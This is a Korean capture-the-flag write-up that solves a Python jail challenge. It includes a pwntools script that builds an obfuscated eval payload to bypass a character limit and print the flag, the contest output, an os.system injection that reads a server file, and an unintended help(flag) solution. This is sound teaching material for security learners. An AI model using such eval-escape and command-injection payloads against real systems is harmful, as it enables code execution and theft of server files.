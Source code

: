 멋집니다!! 쓸 수 있는 문자종류가 딱 `10`이 되었습니다. 이제 다음 커맨드를 실행할 수 있습니다. `print(flag)`

아래와 같은 `exploit code`를 작성할 수 있습니다.

```python
from pwn import *

conn = remote("canyouguessme.pwni.ng", 12349)

def make_payload(command):
	payload  = "eval("
	for i in command:
		payload += "chr("
		for j in range(0, ord(i)):
			payload += "all(chr(val))+"
		payload = payload[:-1]
		payload += ")+"
	payload = payload[:-1]
	payload  += ")"
	return payload


conn.recvuntil("Input value: ")
payload = make_payload("print(flag)")
conn.sendline(payload)

conn.interactive()
```

위 코드를 실행하면 아래와 같이 플래그를 획득 할 수 있습니다.

```
[+] Opening connection to canyouguessme.pwni.ng on port 12349: Done
[*] Switching to interactive mode
PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}
Nope. Better luck next time.
[*] Got EOF while reading in interactive
$  
```
추가로 `__import__("os").system("cat /home/guessme/secret.py")` 와 같이 커맨드를 실행하면 `secret.py`를 통째로 볼 수 있습니다. 


## unintend solution

대회가 끝난 후, 다른 사람들의 write-up을 통해 `unintend solution`이 있다는 것을 알았습니다. `help(flag)`나 `print(vars())`는 둘다 `10`종류 미만의 문자로 이루어져있습니다.

두 커맨드를 입력하면 `flag`를 얻을 수 있습니다.

**help(flag)**
```

  ____         __   __           ____                     __  __       
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___  
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: help(flag)
No Python documentation found for 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.

Nope. Better luck next time.
```